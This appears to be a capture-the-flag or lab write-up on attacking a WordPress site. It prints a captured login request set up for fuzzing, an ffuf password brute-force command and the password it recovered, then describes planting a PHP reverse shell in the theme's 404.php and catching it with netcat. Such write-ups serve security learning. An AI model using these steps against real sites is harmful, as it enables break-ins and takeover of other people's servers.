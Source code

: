 - Captured the login packet for that wp-login
![[Pasted image 20211124184921.png]]

- Saved the packet as ./Exploit/login_bruteForce.txt and added key word "FUZZ" in the password parameter for post data 

			POST /wp-login.php HTTP/1.1
			Host: 10.10.66.191
			User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
			Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
			Accept-Language: en-US,en;q=0.5
			Accept-Encoding: gzip, deflate
			Content-Type: application/x-www-form-urlencoded
			Content-Length: 105
			Origin: http://10.10.66.191
			Connection: close
			Referer: http://10.10.66.191/wp-login.php
			Cookie: s_cc=true; s_fid=28069F760A2B93F8-0A1039ABBDCAD4E6; s_nr=1637797173024; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
			Upgrade-Insecure-Requests: 1

			log=elliot&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.66.191%2Fwp-admin%2F&testcookie=1
			
			
- Bruteforcing through FFUF. filtering packet size 1478 to avoid wrong password cases


			ffuf -request ./login_bruteForce.txt -w ../Enumeration/sortedUF.dic:FUZZ -fs 1478 | tee ./bruteforcing.out

- Found the below password to have worked: 
				
			ER28-0652
			
![[Pasted image 20211124193400.png]]



## REVERSE SHELL
- Visited [HackTricks Page for the WP exploits](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#panel-rce)
- We used ze Pentester PHP rev shell payload from Hacktools

![[Pasted image 20211124200304.png]]

- Uploaded it in the suggested 404.php file for the theme

![[Pasted image 20211124200653.png]]

- set up netcat listener on our end and got the REV SHELL
- Upgraded rev shell through python and stty

![[Pasted image 20211124200400.png]]

